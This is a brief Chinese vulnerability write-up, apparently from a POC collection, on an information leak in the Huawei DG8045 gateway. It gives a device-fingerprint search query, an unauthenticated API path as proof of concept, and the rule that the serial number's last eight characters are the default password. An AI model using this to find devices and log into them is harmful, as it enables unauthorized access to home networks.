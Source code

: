 # Huawei DG8045 deviceinfo 信息泄漏漏洞

# Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

```
Huawei DG8045
```

## 网络测绘

```
app="DG8045-Home-Gateway-DG8045"
```

## 漏洞复现

登录页面

![image-20220519181753641](/images/202205191817718.png)

验证POC

```
/api/system/deviceinfo
```

![image-20220519181803482](/images/202205191818539.png)

SerialNumber 后8位即为初始密码

